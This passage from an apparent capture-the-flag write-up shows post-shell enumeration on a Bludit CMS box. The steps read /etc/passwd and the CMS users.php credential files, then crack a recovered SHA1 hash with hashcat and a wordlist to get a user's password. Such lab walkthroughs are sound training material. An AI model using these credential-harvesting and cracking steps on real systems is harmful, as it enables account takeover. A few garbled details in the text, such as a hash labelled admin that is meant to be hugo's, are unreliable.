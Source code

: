 Now we have an interactive shell on the box. Now we need to escalate our privileges to user. To do that we will do a bit enumeration on the box and see what users are there in the box.

```bash
cat /etc/passwd
```

We can see that there is a user named hugo.

Let’s do a bit of digging in the CMS folder and check if it has anything to offer because most of the time flatline CMSs generally store the user credentials in files rather than databases that we can enumerate.

```bash
cd /var/www
ls
```

We see there are two Bludit CMS folders.

We will search for the keyword user in www and see if we get any matches

```shell
find . | grep user
```

We find two locations that say database and have a user.php. Let’s see if we can get something from there.

```shell
cat ./bludit-3.9.2/bl-content/databases/users.php
```

We find two users here, one is for admin and one for the author user role.

Looking at the other file

```shell
cat ./bludit-3.10.0a/bl-content/databases/users.php
```

We find another user with the as user

We gather the hashes for the password and performing a word count we can see it has 40 words, most probably sha1sum. Only the user Hugo doesn't have a slat for the hash, so this should be easy to crack via hashcat.

Create a file named recovery.txt

```txt
admin:faca404fd5c0a31cf1897b823c695c85cffeb98d
```

Running hashcat

```bash
hashcat --username -m 100 recovery.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

After a while, we get the password back as Password120

We can see that a user is already there and we recovered a password. Let’s utilize that to escalate to hugo
